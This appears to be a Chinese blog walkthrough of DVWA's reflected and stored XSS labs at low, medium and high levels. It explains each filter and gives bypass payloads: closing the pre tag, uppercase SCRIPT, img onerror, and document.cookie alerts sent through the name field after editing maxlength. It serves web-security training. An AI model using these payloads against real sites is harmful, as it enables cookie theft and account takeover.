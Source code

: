 
####  4、 XSS (Reflected)
（1）low
输出的内容在`<pre>`标签内，没有任何过滤，闭合标签构造语句即可。
payload:
```javascript
</pre><script>alert(1)</script>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125111934470.png)

（2）medium
与上一题上比过滤了`script`，直接用大写即可绕过：
```javascript
</pre><SCRIPT>alert(1)</SCRIPT>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125112520722.png)
（3）high
直接用正则把script过滤了，无法绕过script但是可以用其他标签，payload如下：
```javascript
</pre><img src=x onerror=alert(1)>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125112810709.png)
####  5、 XSS (Stored)
（1）low
没有任何过滤,直接留言我们想要执行的js代码，例如反弹cookie：

payload:
```javascript
<script>alert(document.cookie)</script>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125151924593.png)
只要该留言被显示，代码即可执行：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125151956862.png)
（2）medium
strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签，但允许使用标签。
addslashes() 函数返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。

这里由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码，但是对于name参数，只是简单过滤了字符串，仍然存在存储型的XSS。

用大写绕过对script的过滤，payload如下（name限制了长度，直接修改前端表单maxlength即可）：
```javascript
<SCRIPT>alert(document.cookie)</SCRIPT>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125152815422.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125152820739.png)
（3）high
和上一题类似，同时使name处存在XSS，只不过这里使用正则过滤了script标签，无法绕过，我们使用img标签来构造语句：

payload：
```javascript
<img src=x onerror=alert(document.cookie)>
```
